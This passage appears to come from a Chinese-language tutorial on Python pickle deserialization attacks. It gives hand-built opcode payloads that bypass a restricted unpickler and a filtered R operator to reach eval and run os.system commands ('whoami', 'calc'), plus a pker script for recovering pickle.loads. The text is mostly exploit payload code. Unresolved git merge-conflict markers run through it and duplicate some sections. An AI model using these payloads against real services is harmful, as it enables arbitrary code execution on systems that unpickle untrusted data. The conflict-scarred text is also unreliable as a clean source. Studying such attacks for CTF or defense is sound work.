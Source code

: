 <<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
output=b'cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS\'get\'\ntRp4\n0g4\n(g1\nS\'__builtins__\'\ntRp5\n0g3\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
```

`R` 操作符被过滤时，可以使用如下 payload:

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b'\x80\x03(cbuiltins\ngetattr\np0\ncbuiltins\ndict\np1\nX\x03\x00\x00\x00getop2\n0(g2\n(cbuiltins\nglobals\noX\x0C\x00\x00\x00__builtins__op3\n(g0\ng3\nX\x04\x00\x00\x00evalop4\n(g4\nX\x21\x00\x00\x00__import__("os").system("calc")o00.
```

##### 思路二 获取没有被重写的 `pickle.loads` 函数

<<<<<<< HEAD
构造的 payload `builtins.dict.get(builtins.globals(),"pickle").loads()` 但是这个思路有个 bug,`loads()` 函数只能传入 `byte` 类型的字符串。所以对于 v0 的 opcode 必须要引入其他函数来改变字符串类型。这就导致可能不能很好地绕过 `find_class()` 的重写。好在在 v3 的 opcode 中有 `B` 和 `C` 操作符可以向栈中压入 byte 类型的字符串。但是 pker 不能直接调用操作符。就需要我们自己手搓.

pker 的输入

```plain
=======
构造的 payload `builtins.dict.get(builtins.globals(),"pickle").loads()` 但是这个思路有个 bug,`loads()` 函数只能传入 `byte` 类型的字符串。所以对于 v0 的 opcode 必须要引入其他函数来改变字符串类型。这就导致可能不能很好地绕过 `find_class()` 的重写。好在在 v3 的 opcode 中有 `B` 和 `C` 操作符可以向栈中压入 byte 类型的字符串。但是 pker 不能直接调用操作符。就需要我们自己手搓。

pker 的输入

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
funcglob=GLOBAL("builtins","globals")
glob=funcglob()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
pickle=get(glob,"pickle")
loads=getattr(pickle,"loads")
loads("bytestr")
```

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b"cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS'get'\ntRp4\n0g4\n(g1\nS'pickle'\ntRp5\n0g3\n(g5\nS'loads'\ntRp6\n0g6\n(S'bytestr'\ntR"
```
